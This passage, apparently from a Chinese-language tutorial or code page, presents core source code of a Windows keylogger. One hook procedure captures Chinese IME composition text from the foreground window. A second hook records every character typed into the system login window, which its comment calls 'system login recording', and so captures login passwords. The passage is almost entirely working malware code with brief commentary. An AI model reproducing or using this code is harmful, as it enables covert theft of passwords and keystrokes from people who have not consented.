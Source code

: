 ```
                    nCnKeyTimeOut = GetTickCount();
                    HWND hWnd = GetForegroundWindow();
                    HIMC hIMC = ImmGetContext(hWnd);
                    memset(g_srcBuf, 0, 256 * sizeof(WCHAR));
                    DWORD dwSize = ImmGetCompositionString(hIMC, GCS_RESULTSTR, NULL, 0);
                    ImmGetCompositionStringW(hIMC, GCS_RESULTSTR, g_srcBuf, dwSize);
                    if(StrCmpW(g_srcBuf, g_destBuf) != 0)
                    {
                        InsertBuffer(g_srcBuf, KEY_INSERT_NORMAL);
                        lstrcpyW(g_destBuf, g_srcBuf);
                    }
                    if(hIMC)
                    {
                        ImmReleaseContext(hWnd, hIMC);
                    }
                }
            }
            break;
        }
    }
    return(CallNextHookEx(g_hKeyHK_CN, nCode, wParam, lParam));
}

```

系统登录记录核心代码：这个和英文记录查不多主要涉及就是用户桌面切换，这里不需要处理回车因为按回车就等于点确定登陆了。

```
LRESULT CALLBACK HOOK_WM_CHAR_LOGIN_Proc (int nCode, WPARAM wParam, LPARAM lParam)
{
    //进入登录窗口
    if(nCode >= 0 )
    {
        PMSG pMsg = (PMSG) lParam;
        if(pMsg->message == WM_CHAR)
        {
            m_IsLogin = TRUE;
            switch(pMsg->wParam)
            {
                case VK_BACK:
                    InsertBuffer(L"[<=]", KEY_INSERT_LOGIN);
                    break;

                default :
                    {
                        WCHAR m_Text[3] = {0};
                        memcpy(m_Text, &pMsg->wParam, sizeof(WPARAM));
                        InsertBuffer(m_Text, KEY_INSERT_LOGIN);
                    }
                    break;
            }
        }
    }
    return CallNextHookEx(g_hKeyHK_EN, nCode, wParam, lParam);
}

```
